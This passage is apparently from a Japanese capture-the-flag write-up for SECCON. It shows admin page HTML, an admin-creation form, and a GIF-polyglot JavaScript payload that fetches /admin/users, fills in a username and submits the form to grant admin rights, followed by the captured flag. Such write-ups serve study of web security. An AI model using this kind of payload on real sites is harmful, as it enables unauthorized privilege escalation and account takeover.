 ```html
    <link rel="stylesheet" href="/assets/css/uikit-rtl.min.css">
    <link rel="stylesheet" href="/assets/css/umeda.css">
    <script src="/assets/js/uikit.min.js"></script>
    <script src="/assets/js/uikit-icons.min.js"></script>
  </body>
</html>
```

admin 用のメニューが表示されています。`/admin/users` についても上記の方法で内容を得てみると、以下のようなフォームが表示されていることが分かりました。

```html
<h2 class="uk-heading-line">Admin</h2>
<form method="post" class="uk-form-stacked">
  <div class="uk-margin">
    <label class="uk-form-label" for="form-stacked-text">Username</label>
    <div class="uk-form-controls">
      <input class="uk-input uk-form-width-large" name="name" type="text" placeholder="username" autofocus>
    </div>
  </div>
  <div class="uk-margin">
    <div class="uk-form-controls">
      <input class="uk-button uk-button-default" type="submit" formaction="/admin/new-admin" value="Adminしなさい">
    </div>
  </div>
  <input type="hidden" name="csrf_name" value="csrf5a879566b4abd">
  <input type="hidden" name="csrf_value" value="04890b4b2a2cdfae991642281cefac26">
</form>
```

以下のようなスクリプトを実行させることで、`hoehoe` を admin にすることができ、`/admin` を閲覧できるようになりました。

```javascript
GIF89a=0;

var xhr = new XMLHttpRequest();
xhr.onload = function() {
  if (xhr.readyState === 4) { 
    if (xhr.status === 200) {
      document.body.innerHTML += xhr.responseText;
      var form = document.getElementsByTagName('form')[0];
      document.getElementsByName('name')[0].value = 'hoehoe';
      document.getElementsByTagName('input')[1].click();
    }
  }
};
xhr.open('GET', '/admin/users');
xhr.send(null);
```

Cookie を確認すると `FLAG2` と `FLAG3` にそれぞれフラグがセットされていました。

```
SECCON{3d2d29e3dd0ee20052032b293b3929f6}
```
